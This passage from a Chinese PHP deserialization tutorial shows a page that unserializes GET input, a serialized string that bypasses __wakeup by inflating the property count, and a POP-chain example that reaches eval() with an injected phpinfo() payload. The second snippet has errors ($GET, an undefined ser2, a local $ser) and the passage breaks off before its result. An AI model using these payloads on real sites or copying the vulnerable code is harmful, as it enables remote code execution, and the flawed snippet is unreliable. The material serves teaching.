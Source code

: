 ```
<?php 
    error_reporting(0);
    class ABC{
        public $key = 'emmm';
        function __destruct(){
            if(!empty($this->key)){
                if($this->key == 'emmm')
                    echo 'success';
            }
        }
        function __wakeup(){
            $this->key = 'failed';
            echo $this->key;
        }
        public function __toString(){
            return '';
        }
    }
    if(!isset($_GET['answer'])){
        show_source('serializetest.php');
    }else{
        $answer = $_GET['answer'];
        echo unserialize($answer);
    }

 ?>
```
故可构造序列化字符串```O:3:"ABC":4:{s:3:"key";s:4:"emmm";}```
执行结果：
```
success
```
而如果按照正常的数量来写(1而不是4)的话，```O:3:"ABC":1:{s:3:"key";s:4:"emmm";}```
执行结果为：
```
failed
```
#### 当危险函数在别的类中调用
如果一个类中的成员变量是另一个类的对象，而另一个类中调用了危险函数，此时便可通过序列化前者，从而触发漏洞。例如：  
```
class cls1{
	var $ser;
	function __construct(){
		$ser = new ser2();
	}

	function __wakeup(){
		$this->ser->evil();
	}
}

class cls2{
	var $value = "echo 123;";
	function evil(){
		eval($this->value);
	}

}
$cls = $GET['cls'];
$instance = unserialize($cls);
```
我们可以构造序列化字符串```O:4:"cls1":1:{s:3:"ser";O:4:"cls2":1:{s:5:"value";s:10:"phpinfo();";}}```，传入get中即可触发漏洞。  
运行结果：